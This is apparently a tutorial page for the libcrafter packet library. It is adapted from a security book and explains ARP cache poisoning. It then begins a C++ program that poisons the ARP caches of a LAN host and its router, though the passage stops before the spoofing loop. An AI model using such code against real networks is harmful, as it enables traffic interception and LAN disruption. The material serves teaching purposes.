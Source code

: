 # Introduction #

_Adapted from Security Power Tools, by Bryan Burns et al. Copyright 2007 O’Reilly Media, Inc., 978-0-596-00963-2 - Chapter 6_

ARP Cache Poisoning is a type of attack where a machine can be convinced to send
packets to the wrong address on a network. On IP/Ethernet networks, operating systems need to map IP addresses to Ethernet (MAC) addresses in their local network, either to send the packet directly when both are on the same LAN or through a gateway. This mapping is built dynamically with ARP requests. In order to keep ARP requests to a minimum, operating systems maintain an ARP cache that stores the mapping for a given time, usually two minutes, after which a new ARP request would be done if the peer needed to be reached again. ARP cache poisoning is a technique that consists of inserting false information into the cache of a target. When the operating system tries to reach an IP address whose entry has been corrupted, a bad Ethernet address will be used and the packet will not go where it should.

This technique has a huge potential to mess up your LAN for several minutes if you don't setup correctly IP forwarding on the attacker's system. There is plenty of information online about this technique and how to perform it in the correct way.

Technically, ARP cache poisoning is done by sending wrong information through the
ARP protocol. ARP is a protocol designed to bind together two addresses of different levels but from the same host. In our case, it will bind Ethernet and IP addresses. All we have to do is to send hosts bad associations and hope they will put it in their cache.

The following code performs a very simple ARP poisoning attack relying on ARP replies (forward and backward) between two hosts (a LAN machine and a LAN router) and serves as an illustration of how the technique works:

```
#include <iostream>
#include <string>
#include <signal.h>
#include <crafter.h>

/* Collapse namespaces */
using namespace std;
using namespace Crafter;

volatile byte spoof = 1;

void ctrl_c(int dummy) {
	spoof = 0;
}

int main() {

	/* Set the interface */
	string iface = "wlan0";

	/* Get the IP address associated to the interface */
	string MyIP = GetMyIP(iface);
	/* Get the MAC Address associated to the interface */
	string MyMAC = GetMyMAC(iface);

	/* Host A IP address */
	string hostA = "192.168.1.4";
	/* HOst B IP address */
	string hostB = "192.168.1.1";

	/* This will send an ARP request for obtain HostA and HostB MAC address */
	string macA = GetMAC(hostA,iface);
	string macB = GetMAC(hostB,iface);

	/* Check if the hosts are alive */
```